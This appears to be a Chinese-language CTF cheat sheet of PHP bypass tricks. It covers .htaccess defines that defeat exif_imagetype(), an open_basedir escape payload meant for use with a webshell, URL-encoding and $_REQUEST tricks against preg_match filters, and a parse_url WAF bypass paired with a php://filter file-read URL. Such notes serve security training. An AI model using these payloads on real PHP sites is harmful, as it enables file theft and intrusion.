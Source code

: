 

### .htaccess绕过exif_imagetype()

在.htaccess头部加上预定义。

```php
#define width 1000
#define height 1000
```

### 绕过open_basedir

```php
配合一句话木马payload
?a=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(file_get_contents('/THis_Is_tHe_F14g'));
```

###  preg_match(’/…/i’, **$_SERVER[‘QUERY_STRING’]** 

``` 
$_SERVER[‘QUERY_STRING’]不会进行url解码，可用url编码绕过。
```

###   绕过preg_match(....,$_REQUEST)

```
$_REQUEST会解析GET,在解析POST,可以通过post一个新值绕过
```

### parse_url解析漏洞

[[N1CTF 2018]eating_cms](https://blog.csdn.net/fmyyy1/article/details/116712577)

```php
源码如果先对url进行parse_url解析waf，可以构造错误的url使parse_url解析失败从而绕过waf。
例如
    //url: http://127.0.0.1/user.php?page=php://filter/read=convert.base64-encode/resource=ffffllllaaaaggg
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                die("hacker");
            if (stristr($v, $token))
                die("hacker");
        }
    }
	echo "success";
在user.php前加上三个/ 导致parse_url解析失败，绕过下面的foreach检测直接执行后面的echo 'success'.

```
